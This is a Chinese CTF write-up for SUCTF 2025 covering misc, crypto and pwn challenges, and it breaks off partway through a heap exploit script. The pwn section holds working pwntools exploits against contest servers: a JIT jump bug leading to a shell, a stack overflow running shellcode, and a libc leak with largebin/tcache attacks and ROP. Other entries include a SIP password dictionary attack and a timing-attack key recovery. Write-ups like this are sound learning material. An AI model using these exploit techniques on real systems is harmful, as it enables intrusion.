最后还有flag2，flag2其实在lib.rs中有提及到，在lib.rs中函数名被改为了flag2，说明函数名就是flag2。在Solana上，函数一般都被叫做Instructions，所以去查看Instructions即可。其实就是上面的Program log Instruction：

```Rust
YouHaveFound
```

最后组合即可得到flag：

```Rust
SUCTF{Con9ra7s!YouHaveFound_7HE_KEeee3ey_P4rt_0f_Th3_F1ag.}
```

## 3.5 SU_HappyAST

首先先贴一下反混淆的结果（大概就是合并 string literals，把 `xxxx['WTFky'](xxxx)` 这种东西还原，常量计算等）。

暂时无法在飞书文档外展示此内容

然后就可以去盯它的加密逻辑了。然后不难发现，它是从 [aes-js](https://github.com/ricmoo/aes-js/blob/master/index.js) 搬的实现。继续对照发现，和标准 AES 不同的地方就是魔改了一下 rcon 这个表。把 rcon 这个表贴回去 aesjs，发现就能正常出结果了。然后把另一个密文解密出来，是 `_H4PpY_AsT_TTTTTTBing_BinG_Bing}`。

然后呢，然后就要开始脑洞了

> 毫无引导的脑洞真是傻狗拍脑袋的想法😅😅😅

然后脑洞了 18 小时之后（妈的，上面的部分连 4 小时都不用），想起来原脚本中有一堆 `BingUBing` 的字符串，把它们都使用`Bing(.)Bing`提取出来之后，发现不同的有这么几个：

```Plain
BingFBing
BingTBing
BingHBing
BingSBing
BingiBing
BingUBing
BingCBing
Bing{Bing
```

除去 `SUCTF{` 之外还剩下 `i` 和 `H` 两个，所以合理猜测是 `SUCTF{Hi`。

所以最终 flag 就是 `SUCTF{Hi_H4PpY_AsT_TTTTTTBing_BinG_Bing}`。

## 3.6 SU_AI_segment_ceil

训练代码：https://www.kaggle.com/code/zmmmmmmmmmj/su-ai-segment-ceil-code/edit

Pull 数据：

```Python
from pwn import *
import base64

for i in range(200, 500):
    r = remote('1.95.34.240', '10005')
    s = r.recvline().strip().decode().split(':')[1]
    with open(f'remote/{i}.png', 'wb') as f:
        f.write(base64.b64decode(s))
    r.close()
```

聚类

```Python
import os
import cv2
import numpy as np
import pickle
image_names = os.listdir('remote') # [:20]

print(f'{image_names = }')

images = []
for image_name in image_names:
    if image_name.endswith('.png'):
        image_path = os.path.join('remote', image_name)
        image = cv2.imread(image_path, cv2.IMREAD_GRAYSCALE)
        images.append(image.astype(float))

print('Read OK')
print(f'{len(images) = }')
print(f'{images[0] = }')

wtf = {}
visited = set()
for i in range(len(images)):
    if image_names[i] not in visited:
        for j in range(i + 1, len(images)):
            diff = np.sum(np.abs(images[i] - images[j]))
            if diff < 9000000:
                visited.add(image_names[i])
                visited.add(image_names[j])
                if image_names[i] not in wtf:
                    wtf[image_names[i]] = [image_names[j]]
                else:
                    wtf[image_names[i]].append(image_names[j])
        print(f'{len(wtf) = }')

with open('wtf.pickle', 'wb') as f:
    pickle.dump(wtf, f)

print(f"{wtf = }")

# wtf.sort()
# for i in range(20000):
#     print(wtf[i])
#     if wtf[0] > 9000000:
#         break
```

赢：


## 3.7 SU_AI_how_to_encrypt_plus

`self.conv` 没什么好性质，直接丢 z3 嗯算发现能解出来。然后怀疑有多解，因为用前面的结果解后面的 `self.linear` 的时候会 unsat，所以干脆把 `self.conv` 和 `self.linear` 一起扔到 z3 暴算。

算完之后还有一个 `self.conv1`，这个的 weight 性质不错。然后就用二进制分解解出最开始的输入。然后再手动把 binaries 转回 bytes 就行。

```Python
import numpy
import z3

from Generate_ciphertext import mynet, n

with open('ciphertext.txt', 'r') as f:
    y = [ list(map(int, map(float, line.strip().split()))) for line in f ]

####==== self.linear
weight = mynet.linear.weight.detach().numpy().reshape(n * n, n).astype(int)
bias = mynet.linear.bias.detach().numpy().reshape(n * n).astype(int)

z3_arr = [ z3.Int(f'x_{i}') for i in range(n) ]
z3_y = [0] * n * n

for i in range(n * n):
    for j in range(n):
        z3_y[i] += z3_arr[j] * int(weight[i][j])
    z3_y[i] += int(bias[i])

####==== self.conv
get_data = lambda r, c: z3_y[r * n + c] if r >= 0 and r < n and c >= 0 and c < n else 0

weight = mynet.conv.weight.detach().numpy().reshape(2, 2)
bias = int(mynet.conv.bias.detach().numpy()[0])

solver = z3.Solver()
result = [[0 for _ in range(n + 1)] for _ in range(n + 1)]
for r in range(n + 1):
    for c in range(n + 1):
        for i in range(2):
            for j in range(2):
                result[r][c] += get_data(r + i - 1, c + j - 1) * int(weight[i][j])
        solver.add(result[r][c] + bias == y[r][c])

model = solver.model()
x = [ model[x].as_long() for x in z3_arr ]

####==== self.conv1
weight = mynet.conv1.weight.detach().numpy().reshape(3, 3).astype(int)
points = numpy.zeros((3, 3 * n)).astype(int)

for i in range(n):
    v = x[i] - 6
    for r in [2, 1, 0]:
        for c in [2, 1, 0]:
            w = weight[r][c]
            if v >= w:
                v -= w
                points[r][i * 3 + c] = 1

print(points.reshape(n, 9))
```

## 3.8 SU_VOIP

打开流量包，找到一些 RTP 流量，然后有一段是可以听的，听到关键部分为

> If it's an important file, it usually adds eight eights at the end（md，这个 eight eights 糊得一批是人听的吗）
>
> Don't forget the boss employee number is 1003（boss 的 employee number 是 1003）

找明文 SIP 流量，发现若干 401 后带着 authorization header 200 的，其中有 username 是 1003 的，猜测是要的密码产生的，于是对该 header 用 rockyou 字典直接一个个试。

爆破出来密码是 `verde351971`。

然后流量包里 RTP 通讯的部分有一个 7z 加密压缩包的传输，然后密码就是上面那个密码加 8 个 8。解压出来之后拿到 `decrypt.key`。

把 key 导入 Wireshark，就能解密 TLS 消息了，于是就能看到 SDP/TLS 握手的消息了。从 SDP/TLS 可以拿到inline的 SRTP 的加密密钥（Key Parameters），然后就可以用 `rtp_decoder` 解密出新的一段通话。这段通话的重点部分是

> Sorry, I'm recording a password.
>
> 和
>
> Now I like to combine my recorded password with common one, and then hash them to use as password for my confidential file, making it more secure.

其中 recording a password 后面有一段长空白，在这段空白的时间段可以在解密的流量里发现 RTP Event DTMF（应该是键盘），按的数字是 `58912598719870574`。

然后继续猜谜 combine 是怎么 combine 的，前面加还是后面加，common one 指哪个，包不包括八个八，hash 算法用哪个。然后这时候发了提示说 hash 是 sha256sum，然后就去试 sha256sum。然后试了半天发现是 `58912598719870574verde351971`。

然后拿去解压流量包里 HTTP 传输的 flag.7z，就能拿到 flag 了。

## 3.9 SU_RealCheckin

🐍 -> snake -> s

☂️ -> umbrella -> u

以此类推 `🐍☂️🐈🌮🍟{🐋🦅🍋🐈🍊🏔️🦅_🌮🍊_🐍☂️🐈🌮🍟_🧶🍊☂️_🐈🍎🌃_🌈🦅🍎🍋🍋🧶_🐬🍎🌃🐈🦅}` -> `suctf{welcome_to_suctf_you_can_really_dance}`

# 4. Crypto

## 4.1 SU_signin

曲线是BLS12-381

flag二进制经过zfill填充，cs[0]对应的应该是i=0，找到cs[0]和cs[i]的关系

根据BLS12-381的运算规则

假设 

  


因为阶为o，判断weil_pairing后的n2次方结果是否为1即可

如果等于1，i=0；不等于1，i=1

```Python
from Crypto.Util.number import *

p = 0x1a0111ea397fe69a4b1ba7b6434bacd764774b84f38512bf6730d2a0f6b0f6241eabfffeb153ffffb9feffffffffaaab
K = GF(p)
E = EllipticCurve(K, (0, 4))
o = 793479390729215512516507951283169066088130679960393952059283337873017453583023682367384822284289
n1, n2 = 859267, 52437899

cs = ...
Ecs = [E(xy) for xy in cs]

m = '0'
for i in range(len(cs)-1):
    res = Ecs[0].weil_pairing(Ecs[i+1], o) ^ n2
    if res == 1:
        m += '0'
    else:
        m += '1'
# print(m)
print(long_to_bytes(int(m, 2)))
# b'SUCTF{We1come__T0__SUCTF__2025}'
```

## 4.2 SU_Poly

```Python
import os
os.environ['TERM'] = 'xterm'

from pwn import *
from sage.all import *
from gf2bv import LinearSystem
from gf2bv.crypto.mt import MT19937
from time import perf_counter
from contextlib import contextmanager
import pickle
import random
from hashlib import md5

@contextmanager
def timeit(task_name):
    start = perf_counter()
    print(f"Begin task: {task_name}")
    try:
        yield
    finally:
        end = perf_counter()
        print(f"{task_name} took {end - start:.2f} seconds")

def get_oneround(rng):
    ret = []
    for i in range(44):
        r = rng.getrandbits(32)
        if i == 40:
            ret.append(r & 1)
    return ret[0] # ZERO

def get_all_out(rng):
    out = []
    get_oneround(rng)
    for i in range(21333):
        out.append(get_oneround(rng))
    return out

class Gao:
    def __init__(self):
        with timeit('init'):
            self._init_from_pickle()
            # self._init_from_scratch()

        # self.conn = process(['sage', 'another.sage'])
        self.conn = remote('1.95.46.185', '10005')
    
    def _init_from_pickle(self):
        with open('LHS.pickle', 'rb') as f:
            self.lin, self.mt, self.LHS_list = pickle.load(f)

    def _init_from_scratch(self):
        self.lin = LinearSystem([32] * 624)
        self.mt = self.lin.gens()

        rng = MT19937(self.mt)
        self.LHS_list = get_all_out(rng)
        with open('LHS.pickle', 'wb') as f:
            pickle.dump((self.lin, self.mt, self.LHS_list), f)

    def gao_mt(self, data):
        print(self.LHS_list[0])
        print(f'{data[:20] = }')
        zeros = [x ^ y for x, y in zip(data, self.LHS_list)] + [self.mt[0] ^ 0x80000000]
        sol = self.lin.solve_one(zeros)
        print(sol[:10])
        # sol = inv_twist(sol)
        r = random.Random()
        r.setstate((3, (*sol, 624), None))
        coeff = [r.getrandbits(128) for i in range(11)]
        coeff = coeff[::-1]
        ans = md5(str(coeff).encode()).hexdigest()
        self.conn.sendline(ans)
        self.conn.interactive()

    def gao(self):
        s = self.conn.recvline()
        with timeit("recv data"):
            data = eval(s.split(b':')[1])
        extract_data = [x[0] % 2 for x in data]
        if (all(x == 0 for x in extract_data[:100])):
            print("GG 0")
            self.conn.close()
            return False
        with timeit('gao mt'):
            self.gao_mt(extract_data)
        return True

if __name__ == '__main__':
    while True:
        g = Gao()
        if g.gao():
            break # DEBUG
            g.conn.interactive()
        
```

## 4.3 SU_hash

不妨称「一组输入」为 `[i] + [0] * 128`。

不难发现，「一组输入」之间是独立的。然后预处理 `i` 0~127 的每组输入，发现它们的 hash 刚好是线性无关的，所以目标 hash 就可以被线性表出了。

对于 `n0`，只需要一开始扔一个 `[0] * 128` 把 `self.n` 清零即可。

```Python
from Crypto.Util.number import bytes_to_long
from pwn import remote

from ez_hash import xor, fn

conn = remote('1.95.46.185', int(10008))
# proof_of_work()  # PoW implementation omitted for sake of brevity

conn.recvuntil(b'n0 = ')
n0 = int(conn.recvline().strip().decode())

bytes_to_bin = lambda b: [ int(x) for x in f'{bytes_to_long(b):0128b}' ]
gen_list = lambda i: [i] + [0] * 128
prepend = [0] * 128

M = Matrix(GF(2), [ bytes_to_bin(fn(gen_list(i), 0)) for i in range(128) ])

h0 = xor(fn(prepend, n0), b'justjusthashhash')
b = vector(bytes_to_bin(h0))
x = b * M.inverse()

msg = prepend[:]
for (i, v) in enumerate(x):
    if v:
        msg += gen_list(i)

conn.sendlineafter(b'->', bytes(msg).hex())
conn.interactive()
```

## 4.4 SU_Auth

可以通过时间攻击恢复出SUKEY，不存在SUKEY的时候返回结果的时间很慢，存在的时候就很快，从而逐个位置用时间攻击恢复SUKEY

然后现在就需要找到另一个等价的SUKEY，所以现在只需要假设SUKEY已知，然后找一个等价的映射就ok

参考：https://eprint.iacr.org/2019/1209.pdf

把SUKEY全部加3就能得到一个等价的私钥了

```Python
from pwn import remote
from Crypto.Cipher import AES
from ast import literal_eval
from hashlib import md5
import time

ells = [*primes(3, 200), 269]
p = 4*prod(ells) - 1
F = GF(p)

conn = remote('1.95.46.185', int(10003))

conn.recvuntil("😜".encode())
SK = eval(conn.recvline())
print('111')

gSUKEY = []

for i in range(len(ells)):
    lst = [4] * len(ells)
    for gk in range(-3,4):
        conn.recvuntil(": ".encode())
        lst[i] = gk
        conn.sendline(str(lst).encode())
        bgt = time.time()
        msg = conn.recvuntil("🔑".encode())
        edt = time.time()
        if (edt - bgt < 0.4):
            print(ells[i], gk)
            gSUKEY.append(gk)
print(str(gSUKEY))

tmp = [3+gSUKEY[_] for _ in range(46)]
conn.recvuntil(": ".encode())
conn.sendline(str(tmp).encode())
print('flag')
print(conn.recvuntil(": ".encode()))

# SUCTF{My_S4fe_CS1DH_Oops!_any?_all!}
```

## 4.5 SU_mathgame

```Python
from random import randint
from pwn import *
from Crypto.Util.number import *


p = 29674495668685510550154174642905332730771991799853043350995075531276838753171770199594238596428121188033664754218345562493168782883
pseudo_prime=p *(313*(p - 1) + 1)*(353 * (p - 1) + 1)

a = 154476802108746166441951315019919837485664325669565431700026634898253202035277999
b = 36875131794129999827197811565225474825492979968971970996283137471637224634055579
c = 4373612677928697257861252602371390152816537558161613618621437993378423467772036
a*=10**200
b*=10**200
c*=10**200
print(a)
print(b)
print(c)
t=str(a)+","+str(b)+","+str(c)
io=remote("1.95.46.185",10006)


io.sendlineafter(b"Plz Tell Me your number:",str(pseudo_prime))
io.sendlineafter(b"Me your a, b, c:",t.encode())

io.interactive()
```

sage环境问题手动提交最后一部分，测试中发现是概率相等的多试几次

```Python
from Crypto.Util.number import *
from sage.geometry.hyperbolic_space.hyperbolic_isometry import moebius_transform

C = ComplexField(999)
M = random_matrix(CC, 2, 2)
Trans = lambda z: moebius_transform(M, z)
out=[(0.244112983961970192357276289991059882588620721015403423815514432642156521515111102444559393022381302355136158413254449970198185892698333791554526819270236087449499827576129424297460024027743142236525135502689025584933796561604937969098816786387407398078718976334076866904249305446092438933350008787853 - 0.233400166352224109274410058325662894326563909546315758541911715437482257571741923072753825198082523063899481560749263145013410197180074049215374847252575160248916989695238410326711084190392738035555658193249942813984317199598925753434338878105637820155065352223070457728690440164073975917319977615942*I, -0.502697404559782 - 0.339037837578924*I), (0.802867823110887314343945708942091256601620959031911555393799526189607680197869377058120796290446480177693628543697146383459525816680810080641295153893040669795406681701307727202810824292802921270405325000789118184596919161352127397136441946528498717570855840470237410361793615926150523470313497920493 - 0.310600733486570889134246708003853818331642769136614548629569027678304032854885038238973196838185860910877059395740916762683702976158674744020852398470166772148710499283072430336687456097056603056580225447500067137544153869956033916942354952716412455465043340142422526784030271354240365080703262226656*I, -2.51316139420834 + 3.12575747766860*I), (0.519311726970731102981320783513557095465156406190605731070614431985721726459108582756088242933539700259596737208933629183429452670170315074027848183653766950217648145476941084339184217026729407806772699856919763123067740212978049947133058263170549386630813860362176551808477984127116687155390851785093 + 0.152933313892859167495031518929538793251604273728408742559231469751257221329963901558174591430417895760497965752617230591751437997181680378559206647608605856269956794365891641694896581193297096915066485494072512124859878150484199585116155696321828963695306584681144643593099555661189964535226333795783*I, -0.846778208409024 - 0.966243647110718*I)]
kx=0.314839297104703726560968455665739547158434538825624735980654522237164690181390247612268591459438551516155528322244515612475075838547116857381573566324052221159594846542470454630282487660589908643210426837761699859434679217871419017698762187896761042619478975901161671608901416669392489830352975746254 + 0.913310488636953809158606180318266676132493037615495257483187554288159163788866285462847483089354074422891427993783077203828482060391429592768341251418159183429474336928732255522710552067666053383226956897886566771773722698848288260215985569034790548222156838013975910121516415588011227036114606307969*I
C2 = ComplexField(50)

Z, W = [], []
for z,w in out:
    Z.append(CC(z))
    W.append(CC(w))

print(len(Z))

z=CC(kx)
A = (W[0] - W[1]) * (z - Z[1]) * (Z[0] - Z[2])
B = (W[0] - W[2]) * (Z[0] - Z[1]) * (z - Z[2])
fz = (A * W[2] - B * W[1])/(A - B)

print(CC(fz))
```

## 4.6 SU_rsa

  


已知e,d_m,N分解N

参考资料：

https://eprint.iacr.org/2024/1329.pdf

https://github.com/fffmath/MSBsOfPrivateKeyAttack

给的数据里有个很接近题目的，e差了一位



但是论文中给出的代码跑超级慢，然后就手写了一个，核心是先恢复 k， 再恢复 p mod e，然后枚举+small_root 完事

```Python
import itertools
from Crypto.Util.number import long_to_bytes, bytes_to_long
import hashlib, random, string
import tqdm


d_m =  54846367460362174332079522877510670032871200032162046677317492493462931044216323394426650814743565762481796045534803612751698364585822047676578654787832771646295054609274740117061370718708622855577527177104905114099420613343527343145928755498638387667064228376160623881856439218281811203793522182599504560128
n =  102371500687797342407596664857291734254917985018214775746292433509077140372871717687125679767929573899320192533126974567980143105445007878861163511159294802350697707435107548927953839625147773016776671583898492755338444338394630801056367836711191009369960379855825277626760709076218114602209903833128735441623
e =  112238903025225752449505695131644979150784442753977451850362059850426421356123

k = d_m*e // n + 1

SS = (1 + k*n+k - e*d_m)

d_k = SS % k * inverse_mod(e,k) % k
y_e = SS % e * inverse_mod(k,e) % e

P.<x> = PolynomialRing(Zmod(e))
f = x*(y_e-x) - (n%e)
pme = f.roots()[0][0]


P = PolynomialRing(Zmod(n), 'xx')
xx = P.gen()
low_bound = 247
for offset in range(257, 258):
    print(offset)
    for i in tqdm.tqdm(range(2 ** (offset - low_bound))):
        f = xx*2**(offset - low_bound)*e + i*e + int(pme)
        f = f.monic()
        roots = f.small_roots(X=2 ** low_bound, beta=0.48, epsilon=0.015)

        if roots:
            gq = int(roots[0]*2**(offset - low_bound)*e + i*e + int(pme))
            print(n%gq)
            print(gq)
            print(f'SUCTF[{hashlib.sha256(str(gq).encode()).hexdigest()[:32]}]')
```

# 5. Pwn

## 5.1 jit16

生成跳转指令时长度没有正确修复，可以跳转到一条指令的中间

```Python
from pwn import *

"""
  A   B    C  D    E     F    G   H
xxxxxxxx_xxxxxxxx_xxxx_xxxx_xxxx_xxxx
|     v6[4]   |v6[2]|v6[3]|v6[0]|v6[1]|
| v4          | v3  | v2  | v1  | op  |

v6[1] => op \in [0, 9]


v6 = v4 + v2 + v3 + op + v1

0x55555556d2c8:        0x0000444302040104        0x0000000000000000  <- | instruction | wtf
0x55555556d2d8:        0x000055555556d320        0x0000000000000000  <- | wtf buffer  |

00000000 struct shit // sizeof=0x18
00000000 {
00000000     char op;
00000001     char v1;
00000002     char v2;
00000003     char v3;
00000004     int16_t imm;
00000006     int16_t wtf0;
00000008     int64_t wtf1;
00000010     char *buffer;
00000018 };

# Register number
reg 0 => ax
reg 1 => bx
reg 2 => cx
reg 3 => dx

# Mem
native register r8 => read only memory region
"""

def pack_instr(op, reg_or_imm, lhs, rhs, imm):
    if imm < 0:
        imm = -imm
        imm = (~(imm-1))&0xffff
    byte0 = (op << 4) | (reg_or_imm)
    byte1 = (lhs << 4) | (rhs)
    byte23 = imm
    return p8(byte0) + p8(byte1) + p16(byte23)

sh = process("./chall")
sh = remote('1.95.131.201', 10001)
context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(sh, 'b *0x5555555566fb\nc\nx/32i $rdi\nb *0x7ffff7fbd000\nc')
#gdb.attach(sh, 'b *0x0000555555556691\nc')
sh.recvuntil(b'Input ur code:\n')
payload = b''

def gen_mov(reg, lhs, rhs, imm):
    return pack_instr(0, reg, lhs, rhs, imm)

def gen_add(reg, lhs, rhs, imm):
    return pack_instr(1, reg, lhs, rhs, imm)

def gen_sub(reg, lhs, rhs, imm):
    return pack_instr(1, reg, lhs, rhs, imm)

def gen_not(reg):
    return pack_instr(4, 0, 0, reg, 0)

def gen_neg(reg):
    return pack_instr(4, 1, 0, reg, 0)

def gen_shr15(reg):
    return pack_instr(4, 2, 0, reg, 0)

def gen_test(reg):
    return pack_instr(4, 4, 0, reg, 0)

def gen_jmp(reg):
    # op=5
    pass

def gen_read_mem(len_, result_reg, offset_reg):
    # len_ = 0 => read 1 byte to *l register
    # len_ = 1 => read 2 byte to *x register
    return pack_instr(6, len_, result_reg, offset_reg, 0)

def gen_write_mem(len_, result_reg, value_reg):
    # len_ = 0 => read 1 byte to *l register
    # len_ = 1 => read 2 byte to *x register
    return pack_instr(7, len_, result_reg, value_reg, 0)

def gen_set_cf(set_or_clean):
    # 1 for clean
    # 0 for set
    return pack_instr(8, set_or_clean, 0, 0, 0)

def gen_hlt():
    return pack_instr(9, 0, 0, 0, 0)

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 0, 0, 0x5858) * 3       # pop rax, pop rax
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 0, 0, 0x5858) * 3       # pop rax, pop rax
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 0, 0, 0x5858) * 3       # pop rax, pop rax

#payload += pack_instr(5, 0, 0, 0, 3)
#payload += pack_instr(5, 0, 0, 0, 118)
#payload += gen_mov(1, 0, 0, 0x5958) * 3       # pop rax, pop rcx

#payload += gen_mov(1, 2, 0, 0x1000)           # mov rcx, 0x1000
#payload += gen_add(0, 0, 2, 0)                # add rax, rcx

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5f50) * 3       # push rax, pop rdi

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5050) * 3       # push rax, push rax

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5a41) * 3       # pop r10

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0xc031) * 3       # xor eax, eax
payload += gen_mov(1, 0, 0, 0x1000)           # mov rax, 0x1000

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5e50) * 3       # push rax, pop rdi

payload += gen_mov(1, 0, 0, 0x7)              # mov rax, 0x7
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5a50) * 3       # push rax, pop rdx

payload += gen_mov(1, 0, 0, 0xa)           # mov rax, 0xa
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x050f) * 3       # syscall


# craft sys_read()

payload += gen_mov(1, 0, 0, 0x1234) * 3

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 0, 0, 0x5958) * 3       # pop rax, pop rcx

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5e50) * 3       # push rax, pop rsi

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0xc031) * 3       # xor eax, eax

payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5f50) * 3       # push rax, pop rdi

payload += gen_mov(1, 0, 0, 0x1000)              # mov rax, 0x7
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x5a50) * 3       # push rax, pop rdx

payload += gen_mov(1, 0, 0, 0x0)           # mov rax, 0xa
payload += pack_instr(5, 0, 0, 0, 3)
payload += pack_instr(5, 0, 0, 0, 118)
payload += gen_mov(1, 1, 1, 0x050f) * 3       # syscall

payload += gen_mov(1, 0, 0, 0x1234) * 128

sh.sendline(payload[:-1])

context.arch = 'amd64'
sleep(1)
sh.sendline(b'a'*0x17a+asm(shellcraft.echo('hello\n', 1))+asm(shellcraft.sh()))

sh.interactive()
```

## 5.2 SU_BABY

在add_file里，对src的缓存区大小过小，导致可以通过strncpy导致栈溢出


通过strlen来增加对src的偏移，因为栈上有残留指针，导致我们最大可以增加0xf的大小(本身它输入是9个字节)，然后通过这个就可以构造一下，绕过canary修改返回地址

再通过add_sign函数，添加sign，往栈里添加shellcode，我们通过jmp_rsp，再通过jmp $+xxx，来实现shellcode跳转，ORW即可

```Python
from pwn import*
context(arch='amd64', os='linux',log_level="debug")
context.terminal=["wt.exe","wsl.exe"]
#libc = ELF("../libc/")
libc = ELF("./libc-so.6")
"""""
def xxx():
    p.sendlineafter("")
    p.sendlineafter("")
    p.sendlineafter("")
"""

def get_p(name):
    global p,elf 
    # p = process(name)
    p = remote("1.95.76.73",10001)
    elf = ELF(name)

def add_sign(ID,name,content):
    p.sendlineafter("请选择操作:",'1')
    p.sendlineafter("ID",str(ID))
    p.sendafter(": ",name)
    p.sendafter(":",content)

def dele_sign(ID):
    p.sendlineafter("请选择操作:",'2')
    p.sendlineafter("ID",str(ID))

def scan_sign():
    p.sendlineafter("请选择操作:",'3')

def show_sign():
    p.sendlineafter("请选择操作:",'6')

def add_file(nums,name,content):
    p.sendlineafter("请选择操作:",'8')
    p.sendlineafter(":",str(nums))
    # for i in range(nums):
    #     p.sendafter("请输入文件名称",name)
    #     p.sendafter("请输入文件内容",content)

def show_file():
    p.sendlineafter("请选择操作:",'9')
get_p("./ASU1")

add_sign(100,"CCCCCC",asm(shellcraft.read(0,'rsp',0x200))+asm("jmp rsp"))

add_file(6,b"\x00"*0x10,"\x00"*9)

jmp_rsp_0x354 = asm("jmp $+0x386")

jmp_rsp = 0x000000000040327f

p.sendafter("请输入文件名称",b"B"*0xf)
p.sendafter("请输入文件内容",b"A"*3+b"\x00")

p.sendafter("请输入文件名称",b"B"*0xf)
p.sendafter("请输入文件内容",b"A"*8)

p.sendafter("请输入文件名称",b"B"*0xf)
p.sendafter("请输入文件内容",b"A"*8)

p.sendlineafter("请输入文件名称",b"B"*0xf)
p.sendafter("请输入文件内容",b"A"*8)

p.sendafter("请输入文件名称",(b"B"*((0x8+6)))+p16(0x327f))
p.sendafter("请输入文件内容",b"A"*8)

p.sendlineafter("请输入文件名称",jmp_rsp_0x354)
p.sendafter("请输入文件内容",jmp_rsp_0x354)

shellcode = asm(shellcraft.open('/flag', 'O_RDONLY', 0))
shellcode += asm(shellcraft.read(3,0x0006046B0,0x40))
shellcode += asm(shellcraft.write(1,0x0006046B0,0x40))
# gdb.attach(p,"b *0x40278C")    
# sleep(2)

p.send(b"\x90"*0x80+shellcode)
p.interactive()
```

## 5.3 SU_text

先利用偏移任意i32大小可以寻找到libc地址，之后直接泄露libc、heap、stack地址

之后利用2 idx 17的++指针，与2 idx 16的偏移写绕过check，达成偏移写入大largebin attack，最后直接打house of water前半段，修改mp_.tcache_bins，之后就是简易的tcache fd劫持分配到栈上打ROP写ORW即可

```Python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# io = process("./SU_text.new")
io = remote("1.95.76.73", 10011)
# io = process("./SU_text.new.nosandbox")

"""
1 
    16 idx_i8 size_i32 // add(idx_i8, size_i32)
    17 idx_i8 // free(idx_i8)
2 idx_i8 
    16 
        0x10 a0_i32 a1_i32 // ptr[idx_i8][0] = a0_i32 + a1_i32 
        0x11 a0_i32 a1_i32 // ptr[idx_i8][0] = a0_i32 - a1_i32 
        0x12 a0_i32 a1_i32 // ptr[idx_i8][0] = a0_i32 * a1_i32 
        0x13 a0_i32 a1_i32 // ptr[idx_i8][0] = a0_i32 / a1_i32 
        0x14 a0_i32 a1_i64 // ptr[idx_i8][a0_i32].i64 = a1_i64 
        0x15 a0_i32 a1_i64 // a1_i64 = ptr[idx_i8][a0_i32].i64
        0x16 a0_i32 // put_8bytes(1, (pc+a0_i32+4), 8)
    17
        0x10 a0_i32 a1_i32 // ptr[idx_i8][0] = a0_i32 >> a1_i32 ? *(*a2)++ = *a1 >> a1[1];
        0x11 a0_i32 a1_i32 // <<
        0x12 a0_i32 a1_i32 // ^
        0x13 a0_i32 a1_i32 // |
        0x14 a0_i32 a1_i32 // &
3
"""

def submit(pd):
    io.sendlineafter(b"Please input some text (max size: 4096 bytes):\n", pd)

def loop():
    return p8(3)

def add(idx, size):
    # size <= 0x417 || size > 0x500
    res = [p8(1), p8(16), p8(idx), p32(size)]
    return b"".join(res)

def free(idx):
    res = [p8(1), p8(17), p8(idx)]
    return b"".join(res)

def do_begin(idx):
    res = [p8(2), p8(idx)]
    return b"".join(res)

def do_end():
    return b"\x00"

def do_with(idx, opration: list[bytes]):
    assert len(opration) > 0
    return flat([
        do_begin(idx),
        flat(opration),
        do_end()
    ])

def put_8bytes(a0):
    res = [p8(16), p8(0x16), p32(a0)]
    return b"".join(res)

def arb_w(off, addr):
    return p8(16) + p8(0x15) + p32(off) + p64(addr)

def pretain_4bytes(bt: bytes):
    assert len(bt) == 4
    return flat([
        p8(17), p8(0x12), p32(0), bt
    ])

def pretain_bytes(bt: bytes):
    if len(bt) % 4 != 0:
        bt += b"\x00" * (4 - len(bt) % 4)
    res = []
    for i in range(0, len(bt), 4):
        res += [p8(17), p8(0x12), p32(0), bt[i:i+4]]
    return b"".join(res)

def pretain_bytes_with_clean(bt: bytes, offset=0):
    if len(bt) % 4 != 0:
        bt += b"\x00" * (4 - len(bt) % 4)
    res = []
    for i in range(0, len(bt), 4):
        if i >= offset:
            res += [p8(16), p8(0x10), p32(0), p32(0)]
        res += [p8(17), p8(0x12), p32(0), bt[i:i+4]]
    return flat(res)

def write_offset_i64(offset, value):
    return flat([
        p8(16), p8(0x14), p32(offset), p64(value)
    ])

for i in range(0, 0x10):
    payload = flat([
        add(0, 0x418),
        do_with(0, [
            put_8bytes(0x4000+i*0x1000-0xf),
        ]),
        free(0),
        loop()
    ])
    offset = 0x4000+i*0x1000-0xf
    submit(payload)
    tmp = io.recv(8)
    log.success(f"{tmp=}")
    if tmp == b"\x7fELF\x02\x01\x01\x03":
        log.success(f"Found: {offset=:#x}")
        break

payload = flat([
    add(0, 0x418),
    do_with(0, [
        put_8bytes(offset+0x2046a8), # libc stdout
    ]),
    free(0),
    loop()
])
submit(payload)
stdout = u64(io.recv(8))
log.success(f"{stdout=:#x}")
libc_base = stdout - 0x2045c0
log.success(f"{libc_base=:#x}")

from some_util import ELF_with_DWARF
libc = ELF_with_DWARF("./libc.so.6")
libc.address = libc_base

payload = flat([
    add(0, 0x418),
    do_with(0, [
        put_8bytes(offset+0x2031e0), # mp_.sbrk_base
    ]),
